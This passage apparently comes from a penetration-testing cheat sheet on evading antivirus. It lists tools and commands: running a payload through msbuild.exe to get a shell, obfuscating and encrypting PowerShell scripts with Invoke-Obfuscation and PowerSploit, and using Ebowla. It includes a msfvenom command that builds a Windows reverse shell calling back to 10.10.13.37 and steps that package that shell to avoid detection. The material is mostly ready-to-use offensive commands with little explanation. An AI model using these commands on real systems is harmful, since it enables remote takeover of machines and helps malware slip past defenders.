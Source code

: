 Exec with `msbuild.exe` and get a shell:

```text
PS > cmd /c C:\Windows\Microsoft.NET\framework\v4.0.30319\msbuild.exe payload.xml
```

* [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)
* [https://www.youtube.com/watch?v=krC5j1Ab44I&t=3730s](https://www.youtube.com/watch?v=krC5j1Ab44I&t=3730s)

## Invoke-Obfuscation

* [https://github.com/danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
* [https://www.danielbohannon.com/blog-1/2017/12/2/the-invoke-obfuscation-usage-guide](https://www.danielbohannon.com/blog-1/2017/12/2/the-invoke-obfuscation-usage-guide)

## Out-EncryptedScript.ps1

* [https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-EncryptedScript.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-EncryptedScript.ps1)
* [https://powersploit.readthedocs.io/en/latest/ScriptModification/Out-EncryptedScript/](https://powersploit.readthedocs.io/en/latest/ScriptModification/Out-EncryptedScript/)

```text
PS > Out-EncryptedScript .\script.ps1 $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force) s4lt -FilePath .\evil.ps1
PS > [string] $cmd = gc .\evil
PS > $dec = de "Passw0rd!" s4lt
PS > Invoke-Expression $dec
```

## Ebowla

```text
$ git clone https://github.com/Genetic-Malware/Ebowla ~/tools/Ebowla && cd ~/tools/Ebowla
$ sudo apt install golang mingw-w64 wine python-dev -y
$ sudo python -m pip install configobj pyparsing pycrypto pyinstaller
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.13.37 LPORT=1337 --platform win -f exe -a x64 -o rev.exe
$ vi genetic.config
...Edit output_type, payload_type, clean_output, [[ENV_VAR]]...
$ python ebowla.py rev.exe genetic.config && rm rev.exe
$ ./build_x64_go.sh output/go_symmetric_rev.exe.go ebowla-rev.exe [--hidden] && rm output/go_symmetric_rev.exe.go
[+] output/ebowla-rev.exe
```

## charlotte

* [https://github.com/9emin1/charlotte](https://github.com/9emin1/charlotte)
